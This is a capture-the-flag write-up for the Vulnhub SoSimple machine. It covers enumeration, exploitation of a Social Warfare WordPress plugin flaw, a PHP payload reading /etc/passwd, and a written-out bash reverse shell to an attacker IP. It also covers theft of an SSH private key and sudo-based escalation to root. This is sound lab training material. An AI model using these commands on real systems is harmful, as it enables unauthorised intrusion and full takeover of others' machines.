# Vulnhub: SoSimple


## 1. Enumeration

The first step was to identify open ports and services on the target machine (192.168.51.78) using Nmap.

+ Port 22: SSH (OpenSSH 8.2p1).
+ Port 80: HTTP (Apache 2.4.41).

Next, I used Gobuster to discover hidden directories on the web server. The scan revealed a /wordpress directory.




---

## 2. WordPress Exploration

After discovering the WordPress installation, I performed a scan using WPScan to identify users and potential vulnerabilities.

+ Users Found: admin and max.
+ Vulnerable Plugin: The scan identified an outdated version of the Social Warfare plugin.

Researching the plugin revealed a known Unauthenticated Remote Code Execution (RCE) vulnerability affecting versions <= 3.5.2 (CWE-94). For More information you can check [here](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/).






---

## 3. Exploitation (Initial Access)

The exploit involves the swp_debug parameter, which allows loading options from a remote URL.

Payload Creation: I created a `payload.txt` file containing a PHP system call to read the `/etc/passwd` file as a test.

+ Hosting: I started a local Python HTTP server to serve the payload.
+ Execution: By visiting the crafted URL, I successfully read the target's `/etc/passwd` file, confirming the RCE.

To gain a full shell, I updated the payload to a Bash reverse shell:

```bash
<pre>system("bash -c 'sh -i >& /dev/tcp/192.168.49.51/4444 0>&1'")</pre>
```

After setting up a Netcat listener, I executed the exploit and received a connection as the `www-data` user.





---

## 4. Lateral Movement (User: max)

While browsing the file system as www-data, I found the SSH private key (id_rsa) in max's home directory (/home/max/.ssh/id_rsa).

+ I copied the key to my local machine.
+ Set the correct permissions: `chmod 600 id_rsa`.
+ Logged in via SSH: `ssh -i id_rsa max@192.168.51.78`.




---

## 5. Lateral Movement (User: steven)

As max, I checked for sudo privileges and found a way to pivot to another user.

Method: I discovered that max could run the service command as steven.
Execution: By running sudo -u steven /usr/sbin/service ../../bin/sh, I successfully spawned a shell as the user steven.



---

## 6. Privilege Escalation

Once I became steven, I ran sudo -l to see my permissions.

The Vulnerability: Steven could run `/opt/tools/server-health.sh` as root with NOPASSWD.

The Attack:

+ I created the `/opt/tools directory`.
+ I created the `server-health.sh` script containing `/bin/bash -i` and made it executable.
+ I executed the script using sudo `/opt/tools/server-health.sh`.

Outcome: I successfully gained a root shell.

